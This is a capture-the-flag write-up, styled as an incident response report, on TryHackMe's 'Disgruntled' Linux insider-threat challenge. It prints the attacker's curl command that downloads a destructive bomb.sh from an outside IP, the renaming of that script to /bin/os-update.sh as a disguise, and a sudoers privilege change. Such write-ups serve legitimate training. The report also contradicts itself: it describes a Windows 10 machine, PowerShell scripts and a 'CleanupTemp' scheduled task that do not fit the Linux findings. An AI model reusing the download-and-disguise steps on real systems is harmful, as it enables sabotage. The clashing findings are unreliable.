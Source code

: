 # Incident Response Report: Disgruntled

**Date:** July 24, 2024  
**Prepared by:** Mariela C.  
**Incident ID:** 2024-DIS-01

## 1. Executive Summary
On July 24, 2024, a security investigation was initiated following the arrest of an IT department employee from one of our clients, CyberT. The employee, who had been running a phishing operation, was suspected of carrying out malicious activities against CyberT's assets. The investigation, part of the "Disgruntled" Capture The Flag (CTF) challenge on TryHackMe, focused on analyzing the Linux system for any unauthorized actions performed by the individual.

## 2. Incident Description
**Challenge Name:** Disgruntled  
**Date of Incident:** July 24, 2024  
**Affected System:** Linux Server (Hostname: LNX-CTF01)  
**Nature of Incident:** Unauthorized user creation, privilege escalation, and deployment of malicious scripts.

### Summary of Events:
- The compromised Windows 10 machine was reportedly targeted by a disgruntled employee who exploited their access to sabotage the system.
- The investigation revealed unauthorized access to sensitive data, the creation of malicious files, and the manipulation of system settings.

## 3. Detection and Identification
**Detection Method:**  
The incident was detected during the "Disgruntled" CTF challenge, which required participants to investigate potential malicious actions on a compromised Linux system. Key findings included:
- **User Creation:** A new user named "it-admin" was created after the installation of a suspicious package.
- **Sudoers File Update:** The sudoers file was updated on December 28, at 06:27:34, granting the "it-admin" user administrative privileges.

**Initial Response:**  
Upon detection, the following steps were taken:
- Isolated the system from the network to prevent further damage and data exfiltration.
- Conducted a forensic analysis to identify the extent of the damage and the methods used by the attacker.
- Collected and preserved all relevant evidence for further investigation.

## 4. Investigation Findings
**Unauthorized User Activity:**
- **User Involved:** John Doe (disgruntled employee)
- **Actions Taken:** Unauthorized access to sensitive directories, creation of malicious scripts, and modification of system settings.

**Key Indicators of Compromise:**
- **Malicious Files Created:** Several PowerShell scripts designed to alter system settings and exfiltrate data.
- **System Logs:** Evidence of log tampering, including the deletion of security logs to cover tracks.
- **Data Manipulation:** The attacker changed user permissions, granting themselves elevated privileges to execute malicious activities.

**Suspicious Scheduled Task:**
- **Task Name:** CleanupTemp
- **Task Description:** A malicious scheduled task designed to execute a PowerShell script (`cleanup.ps1`) that deleted key system logs and files at regular intervals.

### Specific Findings:
- **User Created After Package Installation:** it-admin
- **Sudoers File Update Time:** Dec 28 06:27:34
- **Script File Opened with "vi" Editor:** bomb.sh
- **Command Used to Create bomb.sh:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`
- **Full Path of the Renamed Script File:** `/bin/os-update.sh`
- **File Created Upon Execution of bomb.sh:** goodby.txt
- **Scheduled Trigger Time for Malicious File:** 08:00 AM

## 5. Impact Assessment
**Data Compromised:**
- The malicious script, bomb.sh, was designed to execute a potentially destructive payload that would create a file named `goodby.txt`, signifying the completion of the malicious activity.
- The script's relocation to `/bin/os-update.sh` indicates an attempt to disguise it as a legitimate system update file, increasing the risk of undetected execution.

**Operational Impact:**
- The scheduled execution of the script at 08:00 AM could have led to significant disruption of services, data corruption, or further unauthorized access to the system.

## 6. Mitigation and Containment
**Immediate Actions Taken:**
- The `it-admin` user account was disabled and removed from the sudoers file to prevent further unauthorized access.
- The malicious script located at `/bin/os-update.sh` was deleted, and the system was scanned for any additional unauthorized files or activities.
- Network access was restricted to limit any potential data exfiltration or further system compromise.

**Long-term Recommendations:**
- Implement strict controls over user account creation and privilege escalation, ensuring all administrative changes are logged and reviewed regularly.
- Enhance monitoring for unauthorized command execution, particularly commands like `curl`, which can be used to download and execute malicious files.
- Conduct regular security audits and vulnerability assessments to identify and address potential weaknesses in the system.

## 7. Lessons Learned
This incident highlights the risks associated with insider threats, particularly in cases where IT personnel have elevated access to critical systems. Strong access controls, continuous monitoring, and regular audits are essential to prevent, detect, and respond to such threats. Moreover, raising awareness and providing training on secure practices can help mitigate the risks posed by disgruntled employees.

## 8. Conclusion
The investigation into the "Disgruntled" challenge revealed a series of unauthorized actions, including user creation, privilege escalation, and the deployment of a malicious script designed to cause harm to the system. By identifying and neutralizing these threats, we have taken critical steps to protect CyberT's assets and prevent similar incidents in the future.
